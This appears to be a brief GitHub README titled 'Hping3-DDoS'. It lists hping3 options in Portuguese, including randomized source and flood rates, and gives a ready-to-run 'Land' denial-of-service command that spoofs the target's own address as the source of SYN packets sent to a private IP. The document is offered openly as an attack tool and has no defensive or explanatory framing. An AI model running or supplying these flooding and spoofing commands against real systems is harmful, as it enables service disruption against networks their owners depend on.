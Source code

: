 # Hping3-DDoS

# Important Commands

```
• -V: Modo Verbose;
• -c: Contador de pacotes;
• -d: Tamanho do dado;
• -p: Porta de destino;
• -s: Porta de origem;
• –rand-source: Randomização da origem;
• –fast: 10 pacotes por segundo;
• –faster: 100 pacotes por segundo;
• –flood: Máximo de pacotes possı́veis por segundo;
```


## Attack DoS Land
```
hping3 -V -c 1000 -d 100 -S -p 21 -s 80
-k -a 192.168.1.110 192.168.1.110
```